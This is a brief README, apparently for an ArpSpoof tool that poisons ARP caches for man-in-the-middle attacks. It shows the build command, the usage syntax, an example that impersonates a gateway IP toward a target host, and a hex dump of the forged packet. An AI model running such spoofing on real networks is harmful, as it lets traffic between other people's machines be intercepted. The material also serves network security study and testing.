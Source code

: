 # ArpSpoof
##ARP cache poisoning's program for the MITM attack

Compile the ArpSpoof program:

<code>$ make && make clean</code>

Usage:

```
# ./ArpSpoof
#  usage: ArpSpoof <interface> <target mac> <target IPv4> <source mac> <fake IPv4>
```
Example:

```
#./ArpSpoof eth0 00:A0:D1:DC:79:80 192.168.1.56 00:11:50:22:55:14 192.168.1.1

  ARP packet write on wire, 42 bytes :

 00 a0 d1 dc 79 80 00 11   50 22 55 14 08 06 00 01  |  ....y...  P"U.....
 08 00 06 04 00 01 00 11   50 22 55 14 c0 a8 01 01  |  ........  P"U.....
 00 a0 d1 dc 79 80 c0 a8   01 38 .. .. .. .. .. ..  |  ....y...  .8

```
